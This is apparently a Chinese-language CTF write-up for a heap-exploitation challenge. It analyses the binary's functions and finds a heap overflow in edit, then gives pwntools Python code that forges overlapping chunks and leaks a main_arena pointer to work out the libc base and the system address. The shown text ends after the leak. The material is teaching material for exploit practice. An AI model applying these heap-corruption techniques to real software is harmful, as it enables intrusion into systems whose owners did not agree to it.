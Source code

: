 1. touch函数，size足够大，chunk不能超过11个：

   ![image-20240713143617347](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131436412.png)

2. delete函数，heap指针清0，没有UAF漏洞：

   ![image-20240713143708871](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131437933.png)

3. show函数，结合delete函数，所以不存在UAF漏洞：

   ![image-20240713143737663](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131437714.png)

4. edit函数，存在堆溢出：

   ![](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131438453.png)

### 利用：

1. 先构造double free，让两个指针指向同一个chunk0x90：

   ```python
   add(0x10)   #0 用来修改chunk1的fd指针
   add(0x10)   #1
   add(0x10)   #2 提供fd的高位地址
   add(0x10)   #3 用来修改chunk4的size字段
   add(0x80)   #4
   add(0x10)   #5 隔开top chunk
   
   #修改chunk1的fd指针，指向chunk4
   free(2)
   free(1)
   payload0 = p64(0)*3+p64(0x21)+p8(0x80)
   edit(0,payload0)
   
   payload3 = p64(0)*3+p64(0x21)   #修改chunk4的size，绕过申请时候的检查
   edit(3,payload3)
   add(0x10)   #1
   add(0x10)   #2 0x90chunk
   
   ##改回0x90chunk的大小
   payload3 = p64(0)*3+p64(0x91)
   edit(3,payload3)
   edit(2,"aaaa")	#验证两个指针
   edit(4,"bb")
   print(proc.pidof(p))
   pause()
   ```

   ![image-20240713144551391](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131445552.png)

2. 释放chunk2和chunk4中的其中一个，让**0x90chunk进入unsortedbin**，再用**另一个输出**来泄漏main_arena中的地址：

   ```python
   free(2)
   show(4)
   p.recv()
   
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x58)
   success("libc_addr==>"+hex(libc_base))
   
   system_addr = libc_base+libc.sym["system"]
   success("system_addr==>"+hex(system_addr))
   ```